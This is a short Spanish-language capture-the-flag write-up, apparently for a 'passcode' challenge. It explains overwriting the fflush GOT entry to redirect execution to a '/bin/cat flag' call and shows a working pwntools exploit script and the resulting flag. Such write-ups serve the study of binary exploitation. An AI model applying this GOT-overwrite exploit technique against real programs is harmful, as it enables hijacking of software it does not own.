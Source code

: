 End of assembler dump.
```

Vemos que la entrada de ```fflush``` esta con la direccion ```0x804a004``` y su valor es ```0x08048436``` que es cuando se hace el ```push```. y esta direccion la ocupamos ya que sobrescribiremos ```fflush``` para que llame a ```/bin/cat flag``` que esta en la direccion ```0x080485e3```

### Crafteando el exploit

```py
from pwn import *

context.update(arch="i386", os="linux")
p = process("./passcode")

payload = b'A' * 96             # desplazamiento para passcode
payload += p32(0x0804a004)      # direccion de la entrada GOT de fflush
payload += str.encode(str(0x080485e3))  # direccion de bin/cat flag

print(p.recvline())
p.sendline(payload)
print(p.recvall())
```
Y nos da la flag la cual es: ```Sorry mom.. I got confused about scanf usage :(```

Eso ha sido todo, gracias por leer ❤
